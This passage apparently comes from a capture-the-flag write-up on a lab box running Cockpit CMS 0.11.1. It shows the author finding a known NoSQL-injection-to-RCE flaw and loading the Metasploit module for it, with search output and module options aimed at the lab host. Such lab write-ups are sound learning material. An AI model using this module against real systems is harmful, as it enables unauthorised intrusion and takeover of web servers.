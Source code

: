 ![version](/assets/images/cmspit/version.png)

I googled 'cockpit cms 0.11.1 exploit' and found a great [blog](https://swarm.ptsecurity.com/rce-cockpit-cms/) by [Nikita Petrov](https://twitter.com/ultrayoba), however im lazy and also found a metasploit module.

```highlight
msf6 > search cockpit

Matching Modules
================

   #  Name                                Disclosure Date  Rank    Check  Description
   -  ----                                ---------------  ----    -----  -----------
   0  exploit/multi/http/cockpit_cms_rce  2021-04-13       normal  Yes    Cockpit CMS NoSQLi to RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/cockpit_cms_rce

msf6 > 
```

I selected the module using the command 'use 0' and filled out the options.

```highlight
msf6 exploit(multi/http/cockpit_cms_rce) > show options

Module options (exploit/multi/http/cockpit_cms_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ENUM_USERS  true             no        Enumerate users
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      cmspit.thm       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The URI of Cockpit
   USER                         no        User account to take over
   VHOST                        no        HTTP server virtual host
```